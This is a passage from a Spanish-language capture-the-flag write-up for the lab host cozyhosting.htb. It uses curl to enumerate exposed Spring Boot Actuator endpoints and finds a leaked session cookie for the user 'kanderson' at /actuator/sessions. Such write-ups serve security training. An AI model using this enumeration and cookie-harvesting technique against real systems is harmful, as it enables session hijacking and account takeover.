 ### Information Leakage

Al verificar el siguiente sitio web [http://cozyhosting.htb/actuator](http://cozyhosting.htb/actuator), nos encontramos con diferentes endpoints.

{% hint style="info" %}
Spring Boot Actuator es un módulo que proporciona endpoints listos para monitorear, administrar y diagnosticar aplicaciones Spring Boot en tiempo de ejecución. Es especialmente útil para DevOps y monitoreo en producción.
{% endhint %}

```bash
❯ curl -s -X GET 'http://cozyhosting.htb/actuator' | jq
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```

Revisando el contenido de[ http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions), verificamos que nos aparece lo que parece ser una cookie de sesión del usuario `kanderson`.
